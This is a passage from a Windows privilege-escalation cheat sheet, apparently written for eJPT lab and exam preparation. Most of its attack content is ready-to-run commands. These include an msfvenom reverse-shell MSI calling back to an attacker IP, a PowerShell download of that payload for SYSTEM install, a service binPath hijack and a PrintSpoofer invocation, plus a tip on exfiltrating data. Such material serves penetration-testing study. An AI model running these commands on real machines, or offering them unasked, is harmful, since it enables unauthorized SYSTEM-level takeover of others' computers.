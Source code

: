 Kernel/patch-based privesc preparation:
```
systeminfo > C:\Users\Public\sysinfo.txt
wmic qfe get HotFixID,InstalledOn > C:\Users\Public\hotfix.txt
```
On your attack box (wes-ng):
```
wes.py --update
wes.py sysinfo.txt --exploits-only
```

Common exploitation sequences (only if the checks above confirm the condition):

- AlwaysInstallElevated MSI (Kali to generate; Windows to run):
  - Kali:
    ```
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f msi -o evil.msi
    python3 -m http.server 8000
    ```
  - Windows (download and install as SYSTEM):
    ```
    powershell -c "(New-Object Net.WebClient).DownloadFile('http://KALI_IP:8000/evil.msi','C:\Users\Public\evil.msi')"
    msiexec /qn /i C:\Users\Public\evil.msi
    ```

- Weak service permissions (change config to your payload if SERVICE_CHANGE_CONFIG is allowed):
```
sc qc VULNSVC
sc config VULNSVC binPath= "C:\Users\Public\payload.exe"
sc stop VULNSVC
sc start VULNSVC
```

- SeImpersonatePrivilege (PrintSpoofer):
```
.\PrintSpoofer.exe -i -c cmd
```

## Practical tips
- Verify before exploiting: many vectors require both a vulnerable condition and a feasible restart/start capability (services/tasks).
- Prefer built-in enumeration first to reduce noise; use automation to catch misses (winPEAS/PowerUp).
- For services:
  - Unquoted path alone isn’t enough; you need write access to one of the candidate path locations and a restart trigger.
  - Weak service permissions (SERVICE_CHANGE_CONFIG/WRITE_DAC/WRITE_OWNER) are higher-signal.
- If SeImpersonate is enabled in medium integrity, Potato/PrintSpoofer is often the fastest route to SYSTEM in labs.
- AlwaysInstallElevated: both HKLM and HKCU must be 1 for reliable MSI escalation.
- UAC bypasses are relevant if you are in Administrators but not high integrity; not a true escalation from standard user.
- Log outputs to files (Public folder) so you can triage later and exfiltrate minimal data (defensible and efficient).
- If domain-joined, expand checks to SYSVOL GPP cpassword, LAPS misconfig, delegated rights, but keep scope on “local” for eJPT unless instructed otherwise.
